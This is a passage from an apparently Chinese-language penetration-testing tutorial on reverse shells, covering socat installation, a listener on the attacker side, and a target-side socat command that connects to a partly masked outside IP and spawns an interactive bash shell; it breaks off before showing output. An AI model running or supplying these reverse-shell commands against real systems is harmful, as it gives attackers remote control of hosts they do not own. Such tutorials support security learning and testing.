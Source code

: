 

当目标主机管理员远程连接该主机时，就会执行该命令，成功获得目标机的shell：

![image-20210505233407479](images/image-20210505233407479.png)

## 利用Socat反弹shell

Socat是Linux 下一个多功能的网络工具，名字来由是”Socket CAT”，因此可以看出它是基于socket的，其功能与netcat类似，不过据说可以看做netcat的加强版，事实上的确也是如此。我这里只简单的介绍下怎么使用它开启监听和反弹shell，其他详细内容可以参见这里：http://brieflyx.me/2015/linux-tools/socat-introduction/

安装Socat的方法很简单：

- Ubuntu等可以直接使用 `apt-get install socat` 命令进行安装
- 也可以去官网下载源码包：http://www.dest-unreach.org/socat

**攻击机开启本地监听：**

```
socat TCP-LISTEN:2333 -
或
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```
socat tcp-connect:47.xxx.xxx.72:2333 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

执行效果如下：
